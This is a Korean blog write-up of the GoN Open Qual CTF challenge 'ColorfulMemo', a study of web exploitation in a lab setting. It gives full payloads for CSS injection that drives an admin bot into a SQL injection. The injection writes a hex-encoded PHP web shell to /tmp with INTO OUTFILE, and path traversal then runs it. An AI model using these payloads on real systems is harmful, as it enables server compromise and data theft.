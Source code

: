 ```yaml
---
title: 2022 Spring GoN Open Qual CTF - ColorfulMemo (풀이 봄)
date: 2022-08-03 15:05 +0900
categories: [Hacking, CTF]
tags: [CSS Injection, mysql select into outfile injection, mysql hex 표현방식, 풀이 봄]
---
```


## ColorfulMemo (풀이 봄)
<hr style="border-top: 1px solid;"><br>

굉장히 많은 소스코드들이 있고 플래그 파일은 ```/flag/{hash}``` 형태로 저장되어 있다.

페이지는 main, write, list, read, submit, check 페이지가 있다.

<br>

+ init.sql

```sql
GRANT FILE ON *.* to 'user'@'%';
FLUSH PRIVILEGES;

USE colorfulmemo;

CREATE TABLE memo (
    id int primary key auto_increment,
    title varchar(255) not null,
    color varchar(255) not null,
    content varchar(1023) not null,
    adminCheck int not null
);

```

<br>

+ my.cnf

```
[mysqld]
pid-file        = /var/run/mysqld/mysqld.pid
socket          = /var/run/mysqld/mysqld.sock
datadir         = /var/lib/mysql
secure-file-priv= /tmp/
default_authentication_plugin=mysql_native_password

# Custom config should go here
!includedir /etc/mysql/conf.d/
```

<br><br>
<hr style="border: 2px solid;">
<br><br>

## Solution
<hr style="border-top: 1px solid;"><br>

우선 위에 올려놓은 코드를 살펴보면 2가지 중요한 사실이 있다.

<br>

+ ```GRANT FILE ON *.* to 'user'@'%'; FLUSH PRIVILEGES;```
  + 이 코드를 통해 모든 파일을 user가 볼 수 있다.

<br>

+ ```secure-file-priv= /tmp/```
  + MySQL 5.1.17 이후부터 보안을 위해 파일 입/출력 전용 경로를 지정할 수 있다고 한다.
  + 위의 코드를 통해 mysql에서 입/출력이 가능한 경로로 ```/tmp```를 설정한 것이다.

<br>

문제를 풀기 전에 이제 sql로 동작하는 페이지에서 flag 페이지를 출력하기 위해서는 ```select ... into outfile ...``` 을 통해 불러와야 하는 것은 추측할 수 있었다.

```SELECT ... INTO OUTFILE writes the selected rows to a file. Column and line terminators can be specified to produce a specific output format.```

<br>

하지만 공격 벡터를 찾을 수 없었다.. 해서 풀이를 보았다.
: <a href="https://velog.io/@whtmdgus56/GoN-Open-Qual-CTF-Colorfulmemo" target="_blank">velog.io/@whtmdgus56/GoN-Open-Qual-CTF-Colorfulmemo</a>

<br>

생각지도 못한 지점이었다..

id 부분을 공격해야함은 알고 있었으나, ```ctype_digit()```과 ```bind_param``` 부분을 우회할 수 있는 방안이 있는지만 찾고 있었다.

공격 벡터는 read.php의 코드 중 아래와 같다.

<br>

```
<style>
    .content{
        color:<?php echo $color ?>
    }
</style>
```

<br>

하... 보고 이걸 왜 못찾았지 싶었다.. CSS Injection 문제에 대해 거의 풀어보지 못한 것이 문제인가..

이 부분에 추가적인 CSS 값을 넣을 수 있다. (드림핵 강의를 참고)

우리는 id 부분을 우회를 해야 하므로 css 코드 중 url을 불러오는 코드 중 강의에서도 사용 된 ```background: url('')```가 있다.

<br>

첫 게시글을 만들고 다음 게시글에 ```memoColor``` 값으로 ```yellow; background: url('http://localhost/check.php?id=1')```을 준 뒤 2번째 게시글을 본 뒤 리스트 페이지를 확인해보면.. 안된다.

이 부분에서 혼란스러웠는데, 당연히 2번 게시글을 들어가면 인젝션한 css 코드를 로컬에서 불러오는거라 생각했는데, 잘못된 생각이었다.

bot.py에서 로컬에서 id값을 read.php와 check.php로 각각 보내는데 이 부분을 거쳐야 한다.

**read를 통해 로컬이 2번 게시글을 읽게 함으로써 인젝션한 css 코드가 로컬에서 실행되는 것이다.**

따라서 2번 게시글을 submit 해주면 1번 게시글도 같이 adminCheck가 되는 것을 확인할 수 있다.

<br>

이제 플래그를 찾아야 한다.

먼저 플래그의 위치를 찾아야 하므로 ```/tmp``` 경로에 셸을 올려서 확인해야 한다.

따라서 ```?id=1 union select '<?php system('ls') ?>' into outfile '/tmp/shell.php'```을 해주면 되는데, read.php 코드를 보면 ```<, >```을 replace 하는 코드가 있다.

<br>

이 부분을 우회하기 위해 mysql에서 hex를 표현하는 방식을 이용할 수 있다.
: <a href="https://dev.mysql.com/doc/refman/8.0/en/hexadecimal-literals.html" target="_blank">dev.mysql.com/doc/refman/8.0/en/hexadecimal-literals.html</a>

<br>

따라서 ```<?php system('ls') ?>```를 hex로 변환해주면 ```X'3c3f706870206563686f2073797374656d28276364202f3b6c733b2729203f3e'```가 된다.

이제 burp나 postman으로 페이로드를 보낸 뒤 게시글을 submit 해주면 된다.
: ```yellow; background: url("http://localhost/check.php?id=1 union select X'3c3f706870206563686f2073797374656d28276364202f3b6c733b2729203f3e' into outfile '/tmp/shell.php'")```

<br>

그 다음 ```?path=../../../../../../../../../tmp/shell.php```로 가면 ```flag_{hash}```가 있으므로 플래그를 출력해주는 코드를 다시 보내준 뒤 확인해보면 플래그가 있다..

<br><br>
<hr style="border: 2px solid;">
<br><br>
